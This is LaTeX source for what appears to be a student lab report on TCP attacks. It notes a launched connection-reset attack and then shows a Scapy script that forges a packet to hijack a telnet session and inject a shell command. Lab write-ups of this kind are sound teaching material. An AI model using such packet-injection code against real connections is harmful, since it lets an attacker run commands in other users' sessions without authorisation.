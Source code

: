 \documentclass[12pt]{article}
\begin{document}
We can now launch the attack.

\begin{figure}
  \includegraphics*{Task2AttackLaunch.png}
\end{figure}

We can see that the attack was launched on a user who was connected to the victum machine. The user was the forced to disconnected.

\section*{Task 3}
For this one we will need to have a user start a session with the victum, once again we will need to get the previous information but for this we will also need 
the ACK. Wiresharking again we see the following information from a packet. We will want to collect this information from the most recent TCP packet sent from the 
user.

\begin{figure}
  \includegraphics*{Task3Packet2.png}
\end{figure}


With that we obtain the following information, a source port of 57328, a sequence of 1960804135, and a ack of 1174207624. For the data we will 
want some command we wish to perform. For this we are going to create a file called danger.txt. This can also be viewed in task3.py\\

\begin{lstlisting}
  #!/usr/bin/env python3
  from scapy.all import *
  
  ip = IP(src="10.9.0.6", dst="10.9.0.5")
  tcp = TCP(sport=57328, dport=23, flags="A", seq=1960804135, ack=1174207624)
  data = "touch ./danger.txt\r"
  pkt = ip/tcp/data
  ls(pkt)
  send(pkt, verbose=0)
\end{lstlisting}
\end{document}
